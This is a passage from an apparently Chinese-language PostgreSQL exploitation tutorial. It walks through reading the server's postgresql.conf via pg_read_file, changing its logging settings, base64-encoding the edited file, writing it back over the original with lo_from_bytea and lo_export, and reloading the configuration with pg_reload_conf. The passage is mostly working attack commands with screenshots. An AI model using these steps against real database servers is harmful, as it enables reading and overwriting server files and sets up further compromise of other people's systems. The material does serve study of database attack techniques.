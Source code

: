查看内容

```bash
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

将配置文件中的 log\_directory 配置修改

```bash
log_destination = 'csvlog'
log_directory = '/tmp/f0x'
log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'
log_rotation_size = 100MB
log_rotation_age = 1d
log_min_messages = INFO
logging_collector = on
```

转为 base64 格式

```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base64.txt
```

```bash
-- 将修改后的配置文件加载到 largeobject 中
select lo_from_bytea(10001,decode('base64 的内容，这里略','base64'));

-- 通过 lo_export 覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

[![40.png](assets/1710208076-7fc89a755370cfa49e0ba6421f91e5eb.png)](https://storage.tttang.com/media/attachment/2022/04/13/095b0408-07ac-4273-96e4-088c46748e01.png)

[![41.png](assets/1710208076-350710cfc75d982c7fa69a4c6ffdf2bd.png)](https://storage.tttang.com/media/attachment/2022/04/13/776fdc1e-f96f-41fe-b829-bcb26a8ec4aa.png)
